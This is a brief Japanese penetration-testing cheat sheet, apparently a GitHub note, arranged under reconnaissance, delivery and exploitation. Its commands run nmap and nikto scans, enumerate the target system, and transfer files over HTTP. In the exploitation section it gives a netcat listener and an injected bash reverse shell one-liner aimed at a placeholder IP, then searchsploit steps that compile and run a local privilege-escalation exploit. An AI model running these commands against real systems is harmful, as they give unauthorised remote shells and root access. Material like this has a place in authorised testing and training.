 
## Reconnaissance

ポート確認

    nmap -v -p- -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Webサーバ

    nikto -h [HOST]

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

bashリバースシェル http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1

exploitdb https://github.com/offensive-security/exploitdb

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc XXX.c -o test
    ./test



